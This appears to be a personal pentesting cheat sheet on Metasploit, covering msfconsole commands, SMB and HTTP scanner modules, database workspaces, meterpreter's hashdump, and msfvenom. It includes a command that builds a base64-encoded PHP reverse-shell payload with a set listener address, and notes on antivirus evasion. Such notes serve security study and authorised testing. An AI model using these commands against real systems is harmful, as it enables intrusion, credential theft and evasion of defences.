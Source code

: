 ```yaml
---
description: Framework that is used in all phases of penetration testing engagement
---
```


# Metasploit

Has two versions: Pro and Framework

Summary of components:

* `msfconsole` - main command-line interface
* Modules - supports modules such as exploits scanners payloads, etc.
* Tools - support standalone tools that wil help vulnerability resarch, assessement or pentesting.\
  Such tools are: msfvenom, pattern\_create and pattern\_offset
* It supports most linux commands (not output redirection)

Definitions:

* Exploit: a piece of code that uses a vulnerability present on the target system
* Vulnerability: A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system
* Payload: An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.

{% tabs %}
{% tab title="Basic Commands" %}
- `help <CMD>` - gives help menu for a specific command
- `use <library>` - uses a tool as an exploit for example
- `show options` - shows the list of options relative to a context selected
- `show <type>` - show a list of available modules to be used
- `back` - leave the context
- `info (<MODULE>)` - gives infos about a module
- `search (<type>) <CVE/EXPLNAME>` gives list of modules relevant to specific parameter
- `set <PARAMETER> <VALUE>` - gives value to a specific parameter
- `unset <parameter/all>` - clear an option
- `setg <param> <val>` - set parameters for all modules
- `unsetg <param/all>` - clear a global option for all modules
- `exploit / run (-z)` - Command to execute the module (in background)
- `check` - can be used to check if a system is vulnerable without exploiting it
- `sessions -i <val>` - used to retrieve background sessions (or interact with it)
{% endtab %}

{% tab title="Modules" %}
You can use Nmap for scanning part, even tough metasploit has some great modules

* auxiliary/scanner/discovery/udp\_sweep - module that allows to quickly identify services running over UDP (such as DNS and NetBios)
* auxiliary/scanner/smb/smb\_version or smb\_enumshares  - scan SMB services
* auxiliary/scanner/smb/smb\_login - bruteforce login
* auxiliary/scanner/http/http\_version - scan HTTP services\

{% endtab %}

{% tab title="Database" %}
{% hint style="info" %}
First steps in shell not in msfconsole
{% endhint %}

Start posgres

```
systemctl start postgresql
```

* `msfdb init` - init Metasploit Database

### In Metasploit

* `db_status` - retrieve the status of Database
* `workspace` - allows to separate projects
* `workspace -a <name>`  - add a new workspace
* `workspace -d <name>` - delete a workspace
* `workspace -h` - get help
* `help` - will now show the database relative commands
* `db_nmap` - allows to save results in a DB
* `hosts (-h)` - you can now print info about hosts
* `services (-h)` - same with running services
* `services -S <service>` - allows to search for specific service
{% endtab %}

{% tab title="Meterpreter" %}
* `hashdump` - dump ntlm hashes
{% endtab %}

{% tab title="Msfvenom" %}
List payloads

```
msfvenom -l payloads
```

List formats

```
msfvenom --list formats
```

Set encoding, protocol and output type&#x20;

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```

### Handlers

They are the listening connection for payloads connection to our handler
{% endtab %}
{% endtabs %}

## Types

### Auxiliary

* Supports modules such as Scanners, Crawlers, fuzzers

### Encoders

* Supports modules that encode payloades in hope that sig-based antivirus miss them even if this is not the primary goal of encoding

### Evasion

* Used to evad antivirus detection

### Exploits

* Uses vulnerabilities in systems

### NOPs

* Does Nothing. They are often used as a buffer to achieve consistent payload sizes.

### Payloads

* Code that will run over a target system
* Adapters: An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
* Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
* Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
* Stages: Downloaded by the stager. This will allow you to use larger sized payloads.

### Post

* They are useful on final stage of pentesting for post-exploitation
